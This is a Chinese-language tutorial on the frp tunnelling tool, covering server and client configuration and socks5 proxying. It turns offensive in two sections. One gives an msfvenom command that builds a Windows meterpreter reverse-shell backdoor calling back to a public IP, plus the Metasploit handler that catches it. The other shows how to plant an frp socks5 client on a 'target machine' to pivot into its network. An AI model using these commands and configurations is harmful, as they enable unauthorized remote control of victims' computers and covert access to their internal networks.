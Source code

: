 frp是一款用于内网穿透的工具，可通过创建服务端和客户端，将内网的服务或应用暴露到外网，这样可以方便地访问内网中的服务或应用，实现内网穿透。
frp的服务端和客户端都支持多种操作系统，包括Linux、Windows以及Mac OS等，支持TCP和UDP协议，可以通过域名或IP地址访问,同时也支持多种认证方式和加密传输。

使用frp可以方便地在内网部署网站、搭建游戏服务、远程访问设备等，也可以用于企业内网的访问和控制。
frp 是一个专注于内网穿透的高性能的反向代理应用，支持 TCP、UDP、HTTP、HTTPS 
等多种协议。可以将内网服务以安全、便捷的方式通过具有公网 IP 节点的中转暴露到公
网。


组成：客户端frpc.exe 服务端frps.exe
<https://github.com/fatedier/frp>
官方手册：<https://gofrp.org/zh-cn/docs/examples/vhost-http/>
## **服务端**
服务端-下载-解压-修改-启动（阿里云主机记得修改安全组配置出入口）
服务器修改配置文件 frps.ini：
[common]
bind_port = 7000 #程序工作端口

>服务端6000端口也要安全组开放，用于转发。

启动服务端：
./frps -c ./frps.ini

后台运行
nohup ./frps


## **客户端**
支持linux，Windows，Mac。
控制客户端-下载-解压-修改-启动
内网客户端端修改配置文件frpc.ini：
```
[common]
server_addr = 47.109.58.205
server_port = 7000 #frps工作端口，必须和上面frps保持一致
[msf]
type = tcp
local_ip = 127.0.0.1
local_port = 5555      #转发给本机的5555
remote_port = 6000   #服务端用6000端口转发给内网机5555端口
```
启动客户端：
./frpc -c ./frpc.ini



## **内网MSF内网穿透变公网**
```
生成后门
msfvenom -p windows/meterpreter/reverse_tcp lhost=47.94.236.117 lport=6000 -f exe -o frp.exe

监听5555端口
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 127.0.0.1
set lport 5555
run
```


^
## **frp进行socks代理**
配置文件连接密码token和socks5代理的客户端示例：
```
[common]
server_addr = 192.168.239.123
server_port = 7778
token=Xa3BJf2l5enmN6Z7A8mv

[test_sock5]
type = tcp
remote_port =8111
plugin = socks5
plugin_user = 0HDFt16cLQJ
plugin_passwd = JTN276Gp
use_encryption = true
use_compression = true
```

####  **无密码实战**
公网服务端
* **frps.ini** 示例配置：

  ```
  [common]
  bind_port = 7000
  ```


目标机客户端
* **frpc.ini** 示例配置：

  ```
  [common]
  server_addr =  47.168.92.1
  server_port = 7000

  [socks5]
  type = tcp
  remote_port = 1080
  plugin = socks5
  ```
可以服务端放公网机，客户端放目标机。代理配置公网机IP。
也可以服务端和客户端都放目标机。代理配置目标机IP。

服务端可以挂在公网服务器常开，客户端自己连。

本地进行socks代理：socks5://47.168.92.1:1080
